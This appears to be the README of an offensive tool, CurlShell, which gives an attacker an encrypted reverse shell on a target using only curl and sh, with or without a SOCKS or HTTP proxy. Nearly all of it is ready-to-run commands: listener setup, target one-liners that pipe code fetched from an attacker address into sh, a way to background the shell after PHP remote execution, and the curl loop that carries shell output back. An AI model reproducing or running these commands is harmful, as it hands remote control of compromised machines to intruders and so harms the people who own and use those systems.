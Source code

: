 # CurlShell
An encrypted reverse TCP shell through a proxy (using only cURL).

It allows an attacker to access a remote shell (sh) when the remote system can access the Internet via a Proxy only (or the filesystem is mounted read-only/noexec). The target only needs to have `curl` and `sh` installed. Python is not needed and no additonal tools are installed or deployed.


Generate a SSL Certificate (on your system; not the target):
```sh
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -sha256 -days 3650 -nodes -subj "/CN=sCRiPTz"
```

## Without Proxy

```sh
# Start your listener (your system)
./CurlShell.py --certificate cert.pem --private-key key.pem --listen-port 8080
```
```sh
# On the target:
curl -skfL https://1.2.3.4:8080 | sh
```

## With SOCKS Proxy
```sh
./CurlShell.py -x socks5h://5.5.5.5:1080 --certificate cert.pem --private-key key.pem --listen-port 8080 
```
```sh
curl -x socks5h://5.5.5.5:1080 -skfL https://1.2.3.4:8080 | sh
```

## With HTTP Proxy
```sh
./CurlShell.py -x http://5.5.5.5:3128 --certificate cert.pem --private-key key.pem --listen-port 8080 
```
```sh
curl -x http://5.5.5.5:1080 -skfL https://1.2.3.4:8080 | sh
```

## With HTTP (plaintext)
```sh
./CurlShell.py --listen-port 8080
```
```sh
curl -sfL http://1.2.3.4:8080 | sh
```

# Advanced Tricks
**Trick #1 - Spawn a TTY shell**
```sh
stty intr undef ;
./curlshell.py --shell "script -qc '/bin/bash -il' /dev/null" --listen-port 8080 ; stty intr ^C
```

**Trick #2 - Start the reverse shell as a daemon / background process**  
This is useful when you have remote execution via PHP:
```sh
# On the target:
(curl -sfL http://1.2.3.4:8080 | sh &>/dev/null &)
```

# How it works
The first cURL request pipes this into a target's shell:
```sh
exec curl -X POST -sN http://1.2.3.4:30903/input \
    | sh 2>&1 | curl -s -T - http://1.2.3.4:30903/stdout
```

This command starts two cURL processes and connects another shell's input and output these two cURL. HTTP's 'chunked transfer' (`-T`) does the rest.
